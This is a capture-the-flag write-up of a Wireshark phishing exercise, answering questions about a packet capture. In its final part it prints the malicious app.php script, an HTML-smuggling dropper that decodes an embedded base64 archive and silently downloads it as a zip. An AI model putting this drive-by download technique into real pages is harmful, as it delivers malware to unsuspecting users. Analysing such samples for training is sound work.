 # Wireshark Phishing

This was a set of instructions to answer questions at the terminal.

![Wireshark Phishing Terminal](/img/tolkienring/wireshark.png)

!!! question ""
    This all started when I clicked on a link in my email. 
    Can you help me? 

!!! success ""
    Answer: `Yes`

!!! question "Question 1"
    There are objects in the PCAP file that can be exported by Wireshark and/or Tshark. What type of objects can be exported from this PCAP?

!!! success ""
    Answer `http`

!!! question "Question 2"
    What is the file name of the largest file we can export?

!!! success ""
    Answer `app.php`

!!! question "Question 3"
    What packet number starts that app.php file?

!!! success ""
    Answer `687`

!!! question "Question 4"
    What is the IP of the Apache server?

!!! success ""
    Answer `192.185.57.242`

!!! question "Question 5"
    What file is saved to the infected host?

After reviewing the PHP code that was saved, I discovered:

!!! success ""
    Answer: `Ref_Sept24-2020.zip`

!!! question "Question 6"
    Attackers used bad TLS certificates in this traffic. Which countries were they registered to? Submit the names of the countries in alphabetical order separated by a commas (Ex: Norway, South Korea).

This was weird, had to filter on `tls.handshake.type == 11` to obtain all the TLS certs. I opened all the certs and simply chose any that weren't from Redmond WA. In this order, it was:

!!! success ""
    Answer: `Israel, South Sudan`


!!! question "Question 7"
    Was the host infected? Yes/No

I'll take obvious answers for $200, Alex.
!!! success ""
    Answer: `Yes`

Said yes because the php script I reviewed looked realllly fishy...

```javascript linenums="1"
<script>

	let d = -new Date().getTimezoneOffset();
	let n = Intl.DateTimeFormat().resolvedOptions().timeZone;

	function set_cookie (name, value, minutes) {
	  
		let date = new Date();
		date.setTime(date.getTime() + (minutes * 60 * 1000));
		
		let expires = "";
		
		if (minutes)
			expires = "; expires="+date.toGMTString();
			
		document.cookie = name + "=" + escape (value) + expires+";path=/";   
	}

	function get_cookie (cookie_name) {
	  let results = document.cookie.match ('(^|;) ?' + cookie_name + '=([^;]*)(;|$)');
	 
	  if (results)
		return (unescape (results[2]));
	  else
		return null;
	}

	if (!get_cookie('d') && !get_cookie('n')) {
		set_cookie('d', d, 2);
		set_cookie('n', n, 2);
		document . location . reload();
	}

	</script><body>
<script>
function saveAs(blob, fileName) {
    let url = window.URL.createObjectURL(blob);

    let anchorElem = document.createElement('a');
    anchorElem.style = 'display: none';
    anchorElem.href = url;
    anchorElem.download = fileName;

    document.body.appendChild(anchorElem);
    anchorElem.click();

    document.body.removeChild(anchorElem);

    // On Edge, revokeObjectURL should be called only after
    // a.click() has completed, atleast on EdgeHTML 15.15048
    setTimeout(function() {
        window.URL.revokeObjectURL(url);
    }, 1000);
}

(function() {
    let byteCharacters = atob('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


    // snipping a HUGE base64 string for the sake of brevity

    aY1TC8dWE9qBSGR+jktdkyYRJ9agFBE2jOrWUjIYgDWi4cvQBqjcE4+lAWRWmQ4BJkN7cAzzJlBl2ot9AZwen8GZ/
    tGgbhWwhKN984qDxQf5fg7W3/Y6hGeZ2MyeQ1qhopcyYOC2a0J5NclRIxsg6NMnBq85hjZWkwOfpm4aUuUWQ9J3KJP/
    f110cFdL6xfWsuHJT6OTdEW/XJkts0n9bweQLOTIUOhtgDVUpVvhhphRcAzdGLOKNy7d7X3OeucJw3ZRpezS9jzEA5dcHeX6k3b/
    RgtWzXCnK2A23NvvNtW8P0AAAAAAAAAAHV432BVddro/2vtRn59+i/EPXsAQAcAUEsBAh8AFAAAAAgAUKM3UUirsfh7OwkAg3oLABMAJA
    AAAAAAAAAgAAAAAAAAAFJlZl9TZXB0MjQtMjAyMC5zY3IKACAAAAAAAAEAGABgQXRy35HWAQVnJmJUktYBBWcmYlSS1gFQSwUGAAAAAAE
    AAQBlAAAArDsJAAAA');
	
    let byteNumbers = new Array(byteCharacters.length);
    for (let i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    let byteArray = new Uint8Array(byteNumbers);
    
    // now that we have the byte array, construct the blob from it
    let blob1 = new Blob([byteArray], {type: 'application/octet-stream'});

    saveAs(blob1, 'Ref_Sept24-2020.zip');
	
})();

</script>
</body>
```